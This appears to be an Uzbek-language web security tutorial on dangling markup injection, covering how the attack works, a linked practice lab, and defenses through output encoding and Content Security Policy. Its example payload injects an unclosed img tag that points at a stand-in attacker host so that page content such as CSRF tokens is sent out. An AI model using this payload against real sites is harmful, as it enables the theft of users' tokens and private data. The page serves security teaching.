 # Dangling markup

Ushbu bo'limda Dangling markup ineksiya nima ekanligi haqida, oddiy exploitlarni qanday amalga oshirish mumkinligi haqida va dangling markup xujumlarini oldini olish haqida gaplashamiz.

## Dangling Markup ineksiya nima? <a href="#dangling-markup-inektsiya-nima" id="dangling-markup-inektsiya-nima"></a>

Dangling markup ineksiya bu XSSni ishlatish mumkin bo'lmagan joylardagi domenlararo ma'lumotni ushlash uchun ishlatiladigan usul.

Faraz qilaylik, web sayt haker tomonidan boshqariladigan maʼlumotlarni oʻz javoblariga xavfli tarzda joylashtiradi:

```html
<input type="text" name="input" value="boshqariladigan ma'lumot
```

Faraz qilaylik, web sayt > yoki " belgilarni filtrlamaydi yoki chetlab o‘tmaydi. Haker kiritgan atribut qiymati va qo‘shuvchi tegdan chiqib ketish va HTML kontekstiga qaytish uchun quyidagi sintaksisdan foydalanishi mumkin:

```
">
```

```
"><img src='//attacker-website.com?
```

Ushbu payload `img` tegini yaratadi va haker serveridagi URL manzilini o'z ichiga olgan `src` atributining boshlanishini bildiradi. Esda tutingki Haker o'zining payloadidagi `src` atributini ohirini yopmadi. Brauzer javobni tahlil qilganda, atributni tugatish uchun birtirnoq belgisiga duch kelmaguncha harakat qilaveradi.  Bu belgigacha bo'lgan barcha narsalar URLning bir qismi sifatida ko'rib chiqiladi va URL so'rovlar qatori ichida Haker serveriga yuboriladi. Har qanday alphanumeric bo'lmagan belgilar, ayniqsa yangi qatorlar URL-encoding bo'ladi.

Hujum natijasi shundaki, Haker maxfiy ma'lumotlarni o'z ichiga olishi mumkin bo'lgan ineksiya qismidan keyin web sayt javobining bir qismini qo'lga kiritishi mumkin. Web saytning funksionalligiga qarab, bu **CSRF** tokenlari, elektron pochta xabarlari yoki moliyaviy ma'lumotlarni o'z ichiga olishi mumkin.

Tashqi so'rovni amalga oshiradigan har qanday atribut **dangling markup** uchun ishlatilishi mumkin.

Keyingi laboratoriyani bajarish qiyin, chunki barcha tashqi so'rovlar bloklangan. Biroq, ma'lumotlarni saqlash va tashqi serverdan keyinroq olish imkonini beruvchi ba'zi teglar mavjud.

:::caution **Lab**
 [Juda qatiy SCP bilan himoyalangan dangling markup hujimi orqali Reflected XSS  ≫](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)
:::

## Dangling Markup xujumlarini qanday oldini olish mumkin? <a href="#dangling-markup-xujumlarini-qanday-oldini-olish-mumkin" id="dangling-markup-xujumlarini-qanday-oldini-olish-mumkin"></a>

Siz dangling markup xujumlarini XSSga qarshi himoyadagidek ximoyalanishingiz mumkin, ya'ni chiqayotgan ma'lumotni kodlab va kelayotgan ma'lumotlarni tekshirib.

Bundan tashqari, Content Security Policy (CSP) yordamida ba'zi dangling markup hujumlarining tasirini kamaytira olasiz. Misol uchun, `img` kabi teglarning tashqi resurslarni yuklashiga to'sqinlik qiluvchi siyosatdan foydalanib, ba'zi (ammo hammasini emas) hujumlarning oldini olishingiz mumkin.
